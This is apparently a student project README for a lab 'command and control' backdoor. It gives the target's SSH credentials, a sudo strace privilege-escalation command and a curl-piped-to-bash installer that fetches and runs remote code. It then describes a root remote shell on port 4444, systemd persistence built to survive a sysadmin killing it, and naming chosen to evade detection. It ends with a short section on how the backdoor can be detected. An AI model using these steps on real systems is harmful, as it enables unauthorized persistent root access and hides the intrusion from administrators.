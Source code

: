 # Command and Control

A simple backdoor that provides the user persistent password-protected access to a previously compromised machine.

## Installing and running the server script on the week4 machine

Logging into the week4 machine:
ssh into the week4 machine using this command:

```bash
ssh user@10.0.2.5
```

The password for the machine is: **hill**

To escalate privileges use this command:

```bash
sudo strace -o /dev/null /bin/bash
```
 
then type ‘cd’ in order to change into the root directory

Run the following command which will install the backdoor to the machine. Only 2 files will be installed: the script to run the server from GitHub directly, and the systemd service to ensure persistence (explained more in a further section).

```bash
curl -s https://raw.githubusercontent.com/athulnair02/command-and-control/main/install_backdoor | bash
```

## Installing and running the client script on your local machine

In any spot on the attacking machine add the file:

**client.py** from the GitHub

Once you’ve done this, you can run the client script at any time using:

```bash
python client.py
```	
or

```bash	
python3 client.py
```

## How the backdoor works

How our backdoor addresses the 5 requirements:

### Explanation of how our backdoor provides remote shell access:
The backdoor is essentially a shell in which the target machine reveals port 4444/tcp in the firewall and listens for a connection from the network. The python script on the target side is waiting for a connection, and once accepted and authorized through a password, it receives commands from the attacking machine through TCP and executes them through a subprocess. The output from the command is sent back to the attacking machine through the established connection.

### Persistence:
The backdoor maintains persistence using a systemd service that ensures it is always running on the machine. It is the service that initially starts the script to open the backdoor when it is first installed and every time the script ends (either successful, on error, etc.) it will be restarted with a different PID. This way, if there is any unforeseen error in the code, it will not prevent the backdoor from being closed. In addition, if a sysadmin kills the program when finding it suspicious (while looking at top or task manager), it will start again, opening the backdoor once again. Another persistence action taken was having a timeout for the initial backdoor connection. If the backdoor does not have a connection in two minutes, it throws an error and ends the program so that it restarts and ensures the firewall was not closed by the sysadmin. If the firewall is closed, then no connection can be made to the backdoor. This timeout can be changed since the code is directly run off of Github, meaning any push to the main branch will update the backdoor when it is run through the curl command piped into python command.

### Configuration to get commands from: 
The only configuration needed is to determine the IP address of the target machine (through nmap or any other means) and change REMOTE_HOST in client.py to that address. It is default set to '10.0.2.5'.
Authentication:
We created a password ( c0d3m@nk3y ) and hashed it using hash(password) in python. This hash is then stored on the server/target machine. We then have client.py ask the user to input a password as the first message to the target and it is then sent to the server. There, the server hashes it and checks it against the known hash, which once confirmed, allows the user remote root shell access.

### Hiding from detection: 
There are only 2 files added to the machine: one that is the backdoor, and the other to ensure it keeps running. Both files are using a less suspecting name (auto-update-checker) that creates the illusion of a routine, ordinary task for the sysadmin. The actual script that is run is in the root’s home directory as a hidden file (it can easily be placed elsewhere more secretive). There is no cronjob running so a sysadmin cannot find the script running there (where other common repeating programs may be). In addition, the service is buried deep with other services so it will be difficult for a sysadmin to search through all services to determine which one is malicious.

### How our backdoor can be detected:
If the sysadmin checks the hidden files in the root home directory, they can find a presence of a file they did not put. If they look past the unsuspecting name and read the script that is running, they will find the backdoor. 
If the sysadmin looks at what ports are open on the firewall using firewall-cmd –list-ports, they will see that 4444/tcp is open and will know something odd is in place keeping the port open. If they use further investigation, they may find the program using the port if they install lsof and execute lsof -i:4444. 


